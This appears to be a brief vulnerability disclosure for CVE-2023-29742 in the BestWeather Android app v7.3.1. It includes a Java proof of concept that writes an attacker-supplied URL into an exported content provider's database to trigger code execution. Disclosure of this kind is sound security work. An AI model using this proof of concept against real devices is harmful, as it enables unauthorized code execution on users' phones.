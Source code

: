 ## Code execution exists in Alarm Clock for BestWeather（CVE-2023-29742）

Vendor：最美天气（上海）科技有限公司(http://www.zmtqsh.com/)

Affected product：BestWeather(com.icoolme.android.weather)

Version：7.3.1

Download link：https://play.google.com/store/apps/details?id=com.icoolme.android.weather

Description of the vulnerability for use in the CVE：An issue found in BestWeather v.7.3.1 for Android allows unauthorized apps to cause a code execution attack by manipulating the database.



poc：

```java
ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
Uri uri = Uri.parse("content://com.icoolme.android.weather.provider/EXP");
ContentValues contentValues = new ContentValues();
contentValues.put("extend2",hack_url);
contentResolver.update(uri,contentValues,null,null);
```



